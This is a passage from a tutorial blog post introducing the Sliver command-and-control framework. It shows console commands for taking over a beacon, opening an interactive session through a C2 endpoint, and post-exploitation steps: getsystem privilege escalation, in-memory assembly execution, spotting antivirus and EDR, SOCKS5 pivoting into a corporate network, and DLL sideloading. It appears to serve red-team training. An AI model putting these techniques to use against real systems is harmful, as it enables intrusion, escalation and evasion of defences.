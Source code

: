 To interact with a beacon, we can run the `use` command and give it the beacon ID:
```bash
sliver > use ede730e4

[*] Active beacon meow (ede730e4-cc70-4552-9e7f-f4a8fa557615)

sliver (meow) >
```
# Sessions
To turn a beacon into a session, we run the `interactive` command:
```bash
sliver (meow) > interactive

[*] Using beacon's active C2 endpoint: https://10.10.14.8:8443
[*] Tasked beacon meow (8d057a41)
```
This will create a running task that will open an interactive session when it's time to execute again
```bash
[*] Session 2b8213e1 ...
```
We can list sessions using the command `sessions`. If we want to switch to the context of the session, we can do so by using the following command:
```bash
sliver (meow) > use 2b8213e1-5f9e-4d4f-b003-b17e62a239c3

[*] Active session meow (2b8213e1-5f9e-4d4f-b003-b17e62a239c3)
```
# Other useful commands
### execute-assembly
With `execute-assembly` we can run a .NET assembly (DLL or exe) in memory, by spawning a new process (notepad by default) that hosts the _.NET-CLR_.
### getsystem
Spawn a new session as NT AUTHORITY/SYSTEM, by injecting into a system process when you are already in a high privileged shell.
### ps
List processes and identify running security products such as AVs and EDRs.
### socks5
Start a socks5 proxy in your implant with socks5 start. This proxy can then be used with e.g. proxychains to tunnel your tools through the implant into the corporate network.
### sideload
Load and execute a shared object (shared library/DLL) in a remote process
# Conclusion
This was a basic intro to sliver C2, but there's a lot more you can do with it. Checkout the official documentation here: https://sliver.sh/docs. It's very detailed and explains many things you can do with Sliver.
# Resources
- https://bishopfox.com/blog/passing-the-osep-exam-using-sliver
